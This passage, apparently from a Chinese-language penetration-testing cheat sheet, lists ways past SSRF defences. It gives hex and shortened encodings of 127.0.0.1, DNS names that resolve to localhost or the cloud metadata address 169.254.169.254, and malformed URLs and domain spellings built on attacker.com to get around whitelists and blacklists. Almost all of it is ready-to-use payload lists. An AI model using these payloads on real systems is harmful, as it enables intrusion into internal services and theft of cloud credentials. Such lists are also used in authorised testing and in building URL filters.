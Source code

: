 ```
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# 还可以混合使用各种编码绕过
# https://www.silisoftware.com/tools/ipconverter.php

# 畸形而罕见的绕过方式
localhost:+11211aaa
localhost:00011211aaaa
http://0/
http://127.1
http://127.0.1

# DNS解析到本地主机
localtest.me = 127.0.0.1
customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
mail.ebc.apple.com = 127.0.0.6 (localhost)
127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://bugbounty.dod.network = 127.0.0.2 (localhost)
1ynrnhl.xip.io == 169.254.169.254
spoofed.burpcollaborator.net = 127.0.0.1
```

![](https://img-blog.csdnimg.cn/img_convert/b8035df8daa299bef39eca3ee1483083.png)



### 绕过白名单

白名单通常更难绕过，因为它们在默认情况下比黑名单更严格。但如果白名单域中存在开放重定向漏洞，则有可能。如果您可以找到一个开放的重定向，你可以请求一个重定向到内部 URL 的白名单 URL。
例如,可以通过使用子域或目录作为白名单域名。

```
victim.com.attacker.com
attacker.com/victim.com
```



#### 更改域名写法

```
https:attacker.com
https:/attacker.com
http:/\/\attacker.com
https:/\attacker.com
//attacker.com
\/\/attacker.com/
/\/attacker.com/
/attacker.com
%0D%0A/attacker.com
#attacker.com
#%20@attacker.com
@attacker.com
http://169.254.1698.254\@attacker.com
attacker%00.com
attacker%E3%80%82com
attacker。com
ⒶⓉⓉⒶⒸⓀⒺⓡ.Ⓒⓞⓜ   利用封闭的字母数字绕过
```
